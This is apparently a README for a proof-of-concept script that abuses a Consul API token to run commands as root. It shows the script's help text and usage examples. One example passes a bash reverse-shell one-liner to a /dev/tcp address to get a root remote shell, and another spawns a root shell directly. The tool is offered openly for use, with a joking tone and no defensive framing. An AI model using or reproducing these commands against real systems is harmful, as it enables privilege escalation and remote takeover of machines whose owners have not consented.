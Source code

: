 
- taking advantage of the consul api token to task commands to run as root


```
$ python3 root_c0nsul.py -h

usage: root_c0nsul.py [-h] --api_token API_TOKEN [--command COMMAND] [--root]

options:
  -h, --help            show this help message and exit
  --api_token API_TOKEN, -t API_TOKEN
                        the api token of the consul service
  --command COMMAND, -c COMMAND
                        command to be executed as root
  --root                get root shell ;)

poc for exploiting the consul service api to gain root privs
```

example1: `$ python3 root_c0nsul.py -t <API_TOKEN> -c "bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"` get a root revshell

example2: `$ python3 root_c0nsul.py -t <API_TOKEN> -c "id"` executes the command (id) as root

example3: `$ python3 root_c0nsul.py -t <API_TOKEN> --root` you know what does that do ;) 


